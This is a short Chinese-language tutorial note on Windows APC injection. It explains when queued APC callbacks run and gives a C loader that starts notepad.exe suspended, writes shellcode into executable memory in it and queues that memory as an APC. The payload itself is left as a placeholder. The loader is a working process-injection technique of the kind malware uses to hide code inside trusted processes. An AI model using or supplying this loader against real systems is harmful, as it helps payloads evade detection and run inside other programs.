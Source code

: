 

只有当一个线程

内部调用`SleepEx`、`SignalObjectAdndWait`、`WaitForSingleObjectEx`、`WaitForMultioleObjectsEx` 等

特定函数将自己处于**挂起状态**时，才会执行APC队列函数

我们利用QueueUserApc,往这个队列中插入一个回调函数



压入队列后，线程将按照顺序优先级执行(FIFO)

这种注入技术的缺点是只有当线程处在alertable状态时才去执行这些APC函数





原理如下:

```c
#include <Windows.h>
unsigned char shellcode[] = "<shellcode>";    //你的shellcode代码
int main()
{
    LPCSTR lpApplication = "C:\\Windows\\System32\\notepad.exe";   //path
    SIZE_T buff = sizeof(shellcode);      //size of shellcode
    STARTUPINFOA sInfo = { 0 };
    PROCESS_INFORMATION pInfo = { 0 };     //return a new process info
    CreateProcessA(lpApplication, NULL, NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, &sInfo, &pInfo);//以创建一进程为例子.然后挂起
    HANDLE hProc = pInfo.hProcess;
    HANDLE hThread = pInfo.hThread;


    LPVOID lpvShellAddress = VirtualAllocEx(hProc, NULL, buff, MEM_COMMIT, PAGE_EXECUTE_READWRITE);//直接开始APC注入
    PTHREAD_START_ROUTINE ptApcRoutine = (PTHREAD_START_ROUTINE)lpvShellAddress;
    WriteProcessMemory(hProc, lpvShellAddress, shellcode, buff, NULL);
    QueueUserAPC((PAPCFUNC)ptApcRoutine, hThread, NULL);//ptApcRoutine指向你的shellcode
    ResumeThread(hThread);

    return 0;
}
```



res还有一个代码

可以实现对指定进程的所有线程插入APC函数

原理是一样的

其中遇到的问题:如果自己写一个肉机代注入的话,就么效果

可能是它没内部调用`SleepEx`、`SignalObjectAdndWait`、`WaitForSingleObjectEx`、`WaitForMultioleObjectsEx` 等